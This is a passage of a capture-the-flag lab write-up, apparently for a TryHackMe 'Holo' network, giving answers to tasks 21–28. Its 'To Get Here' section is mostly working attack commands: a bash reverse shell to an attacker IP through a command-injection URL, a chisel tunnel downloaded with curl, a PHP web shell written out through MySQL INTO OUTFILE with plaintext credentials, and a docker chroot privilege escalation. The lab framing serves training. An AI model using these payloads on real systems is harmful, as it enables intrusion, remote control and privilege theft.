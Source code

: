 #### Task 21

What non-default user can we find in the shadow file on L-SRV01?
```
linux-admin
```

## To Get Here

```bash
# login in to 
http://admin.holo.live/index.php
# admin:DBManagerLogin!
http://admin.holo.live/dashboard.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/443+<%261'

# Setup proxychains and chisel
./chisel server -p 8888 --reverse
# curl chisel run client 
curl http://10.50.103.91/chisel -o chisel
./chisel client 10.50.103.91:8888 R:socks

proxychains mysql -h 192.168.100.1 -u admin -p
# !123SecureAdminDashboard321!
use DashboardDB;
# required create RCE on docker host
# if it does not exist
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/nvmcmd.php';

proxychains curl "http://192.168.100.1:8080/nvmcmd.php?cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.50.103.91/445+<%261'"

sudo install -m =xs $(which docker) .
./docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
```

[From 1:30:00 Alh4zr3d](https://www.youtube.com/watch?v=-a10dxWbp5M)

#### Task 22

The /etc/shadow has vandalised or broken so I could not crack it
```
linuxrulez
```

#### Task 23 - 28

```lua
Nmap scan report for 10.200.107.31
Host is up (0.21s latency).
Not shown: 92 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
```
